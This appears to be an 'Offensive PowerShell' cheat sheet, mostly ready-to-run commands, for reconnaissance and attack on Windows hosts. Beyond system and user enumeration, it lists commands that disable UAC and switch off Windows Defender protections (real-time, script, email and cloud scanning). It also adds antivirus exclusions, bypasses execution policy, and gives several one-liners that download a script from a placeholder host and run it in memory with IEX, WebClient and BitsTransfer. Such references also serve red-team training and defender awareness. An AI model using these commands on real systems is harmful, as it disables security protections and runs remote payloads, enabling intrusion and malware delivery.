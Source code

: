 # Offensive PowerShell

\# Cmdlet Help  
`Get-Help <CMDLET>`  
\# List all running processes  
`Get-Process`  
\# Execution Policy Information  
`Get-ExecutionPolicy -List`  
\# Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
\# Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
\# Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
\# Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
\# Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
\# Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
\# Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
\# Get Firewall Information  
` Get-NetFirewallProfile`  
\# Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
\# List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  
\# Disables realtime monitoring (requires admin)    
`Set-MpPreference -DisableRealtimeMonitoring $true`  
\# Disables scanning for downloaded files or attachments (requires admin)    
`Set-MpPreference -DisableIOAVProtection $true`  
\# Disable behaviour monitoring (requires admin)    
`Set-MPPreference -DisableBehaviourMonitoring $true`  
\# Make exclusion for a certain folder (requires admin)    
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
\# Disables cloud detection (requires admin)    
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
\# Disables scanning of .pst and other email formats (requires admin)    
`Set-MPPreference -DisableEmailScanning $true`  
\# Disables script scanning during malware scans (requires admin)    
`Set-MPPReference -DisableScriptScanning $true`  
\# Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
\# Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
\# Remote Code Execution - Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
#\ Remote Code Execution - Invoke-RestMethod (Download and run remote scripts)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
\# Remote Code Execution - Start-Process (open a new PS instance and run a downloaded script - useful to bypass execution policies)  
`$url = "https://site.com/script.ps1"`  
`Invoke-WebRequest -Uri $url -OutFile "script.ps1"`  
`Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File script.ps1"`  
\# Remote Code Execution - IEX = Invoke-Expression (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`IEX (New-Object System.Net.WebClient).DownloadString($url)`  
\# Remote Code Execution - Invoke-WebRequest (run script from memory)  
`$url = "https://site.com/script.ps1`  
`$script = Invoke-WebRequest -Uri $url -UseBasicParsing`  
`Invoke-Expression $script.Content`  
\# Remote Code Execution - Invoke-RestMethod (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
\# Remote Code Execution - BitsTransfer (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`Import-Module BitsTransfer`  
`Start-BitsTransfer -Source $url -Destination "script.ps1"`  
`Invoke-Expression -Command (Get-Content -Path "script.ps1" -Raw)`  

